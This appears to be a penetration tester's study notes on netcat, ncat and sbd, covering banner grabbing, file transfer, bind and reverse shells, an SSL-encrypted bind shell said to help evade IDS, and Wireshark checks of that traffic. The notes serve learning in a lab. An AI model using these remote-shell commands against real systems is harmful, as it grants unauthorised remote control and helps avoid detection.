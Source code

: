 # Essential Tools
## Netcat
### Banner Grabbing
#### Connect to port to interact with services
`nc -nv $IP $PORT`

* Check banner for application and version

##### SMTP:
`nc -nv <windows IP> 25`

##### POP3:
`nc -nv <windows IP> 110`

##### IMAP:
`nc -nv <windows IP> 143`

#### Netcat chat

On listening host:`nc -nlvp $PORT`

On connecting host:`nc -nv $IP $PORT`

Type some words, you will see it on listening host
* sent in plaintext

#### Transfer text/binary files
On listening host:`nc -nlvp $PORT > incoming.exe`

On connecting host:`nc -nv $IP $PORT < /PATH/TO/FILE`

* No feedback about file upload process
* To test, check file is working/complete

### Executing Remote Commands/Output redirection
#### Bind shell
* $Bob - Windows 
* $Alice - Kali - NATed IP

Bob: `nc -lvp 4444 -e cmd.exe`
* presents command prompt to whoever connects
* cmd shell is bound to port 4444

Alice: `nc -vn $BOB 4444`
* connects to Bob
* Presented with windows command prompt.

#### Reverse shell
* Needs Bob to connect to Alice

Bob:`nc -lvp 4444`

Alice: `nc -vn $BOB_IP 4444 -e /bin/bash`
* Bob can type linux commands and get Output
* Windows box can now control kali

## Ncat
* Netcat lacks both encryption and access limitations
* using Ncat helps avoid IDS
* modern day rewrite of Netcat

### Set up SSL bind shell

Bob: `ncat -lvp 4444 -e cmd.exe --allow $ALICE_IP --ssl`

Alice: `ncat -v $BOB_IP 4444 --ssl`
* should have a secure bind shell

To verify one, can use wireshark

### SBD

```
root@kali:~# sbd -l -p 4444 -e bash -v -n
listening on port 4444
root@kali:~# sbd 192.168.1.202 4444
id
uid=0(root) gid=0(root) groups=0(root)
```

## wireshark
### Checking for unencrypted bind shell

1. Choose interface
2. Set up filter that only captures port 4444
  * host $BOB_IP and tcp port 4444
3. Set up bind shell while Wireshark runs in background
4. Stop capture
5. "Follow TCP Stream"

You should be able to see the connection and various commands performed

### Checking for encrypted ncat ssl shell
1. Same setup as above

You should see the traffic is encrypted
